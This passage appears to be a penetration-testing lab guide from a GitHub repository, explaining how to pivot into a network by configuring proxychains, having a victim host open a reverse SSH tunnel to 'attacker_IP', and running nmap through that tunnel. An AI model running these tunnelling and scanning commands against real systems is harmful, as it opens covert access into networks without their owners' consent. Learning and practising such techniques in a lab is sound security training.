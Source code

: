 ## Configure a Port Fowarding Rule

![image](https://github.com/sannicJP/Pen-Test-LAB/assets/161343927/6f884824-3493-45c3-b352-12c24a82e1e3)

![image](https://github.com/sannicJP/Pen-Test-LAB/assets/161343927/a007e4fa-4897-4dfe-8e8a-dbd967682037)




#### ***SKIP NEXT STEP IF YOU CONFIGURED PROXY CHAINS ALREADY***

1.(COMMENT) `(#strictchain)`
2.(UNCOMMENT) `(dynamicchain)`
3.(UNCOMMENT) `(quitemode)`
4.(COMMENT) `(#proxydns)`
Then change the default config at the bottom from socks4 to socks5
127.0.0.1 9080 and whatever port you want to use.



### (ATTACKER) 

```
sudo nano /etc/proxychains4.conf
```

#### START HERE IF PROXY CHAINS IS ALREADY CONFIGURED
### (ATTACKER) 

```
netstat -napt (set up listener over ssh)
```

```
sudo systemctl status ssh.service (CHECK CHANGE CHECK)
```

```
sudo systemctl start ssh.service (check if started)
```

```
netstat -napt | grep LISTEN
```

Example of open port

![image](https://github.com/sannicJP/Pen-Test-LAB/assets/161343927/2e8d4981-4e7f-4885-bdd1-3a068f50d35f)


### (VICTIM)

```
ssh -N -f -R 127.0.0.1:9080 attacker_username@attacker_IP -p unique_pivot_port
```

(This command wont show you anything go back to kali and run net stat, port shoud be open now) 
![image](https://github.com/sannicJP/Pen-Test-LAB/assets/161343927/f908fd65-c196-4d2c-918e-9cc18a4e7cc8)

(since the proxy is now available to us we will wrap nmap inside proxychains)
### (ATTACKER) 

```
sudo proxychains nmap -iL scope -F -sT -Pn | tee fast_scan
```

(we are listening over ssh we are not manipulating the port we are manipulating the port fowarding rule)

